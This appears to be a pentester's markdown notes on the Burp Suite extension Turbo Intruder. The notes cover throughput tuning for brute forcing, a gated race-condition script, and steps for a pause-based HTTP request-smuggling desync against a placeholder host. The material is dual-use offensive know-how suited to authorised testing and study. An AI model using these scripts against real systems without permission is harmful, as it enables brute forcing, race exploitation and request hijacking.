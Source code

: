 # Turbo Intruder
The BurpSuite extension to be able to do more intruder stuff.

- Use `%s` in the target request to mark payload positions.

It uses python. And the user can define the algorithm of two functions.
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )
```
and 
```python
def handleResponse(req, interesting):
    table.add(req)
```

These functions are kinda straightforward. The first one queues and sends the requests, and the second one handles the responses it gets.

### Speed
The speed of these basic settings is 8 requests/second:
```python
    concurrentConnections=1,
    requestsPerConnection=1,
    pipeline=False
```

By changing concurrentConnections to 25, the speed becomes 39 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=1,
    pipeline=False
```

By changing requestsPerConnection to 100, the speed becomes 869 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=100,
    pipeline=False
```

By setting pipelining to true, the speed becomes 1785 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=100,
    pipeline=True
```

## Race conditions | Parallel requests
For race conditions where you have to send multiple packets at the same time, while you can brute force through some (word)list while sending them. It can probably only hold like 20~30 requests at the same time, so any more will probably not work. 

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

## Pause Based Desync Attack
Sometimes, a pause withing the sending of the request can cause a desync attack vector. Take a look [here](../web/smuggling.md#desync--pause-based).

1. In Burp Turbo Intruder, create a request like this:
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

2. In the python editor panel, adjust the request engine configuration to set these options:
```python
concurrentConnections=1,
requestsPerConnection=100,
pipeline=False,
engine=Engine.THREADED
```

3. Add extra arguments to the `engine.queue()` function something like this:
```python
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000) # Adjust for needs
```

4. Just also queue a normal follow-up request as normal:
```python
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```

After the delay you specified in step 3, you should get two responses. If the latter response matches what you expected from the smuggled prefix, this strongly suggests that the desync was succesful.